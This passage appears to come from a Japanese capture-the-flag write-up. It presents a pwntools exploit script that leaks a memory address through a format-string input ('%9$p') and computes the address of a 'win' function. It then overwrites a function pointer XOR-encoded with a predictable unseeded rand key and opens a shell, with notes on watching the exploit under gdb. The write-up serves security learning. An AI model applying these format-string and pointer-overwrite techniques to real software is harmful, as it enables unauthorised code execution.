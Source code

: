 ```python
p = conn()

def view_obj():
    p.sendlineafter(b'Choice:', b'1')
    p.recvuntil(b'Name: ')
    name = p.recvline()[:-1]
    p.recvuntil(b'Description: ')
    desc = p.recvline()[:-1]
    return name, desc

def edit_obj(desc):
    p.sendlineafter(b'Choice:', b'2')
    p.sendlineafter(b'description: ', desc)

def rename_obj(name):
    p.sendlineafter(b'Choice:', b'3')
    p.sendlineafter(b'name): ', name)
    
def call_obj():
    p.sendlineafter(b'Choice:', b'4')
  
key = 0x6b8b4567 # no seed    
rename_obj(b'%9$p')
leak, _ = view_obj()
print("Leak addr: ", leak)

win = int(leak,16) - (0x555555555600-0x00005555555552fb) # 0x305
print("Win: ", hex(win))

payload = b'A'*0x80
payload += pack(win^key)

edit_obj(payload)

# gdb.attach(p, gdbscript=gdb_script)
# time.sleep(1)
call_obj()

p.interactive()
```
:::message 
以下のコメントアウトを外してgdbを使ってExploit途中の状態を確認できます。
お好きな位置にこのコードを追加して見ると、メモリの挙動が確認でき面白いと思います。

※デフォルトで`vis`コマンドを打つようにしています。
:::
```python
gdb_script = '''
vis
'''

# gdb.attach(p, gdbscript=gdb_script)
# time.sleep(1)
```
実行するとこのようにShellをゲットできます。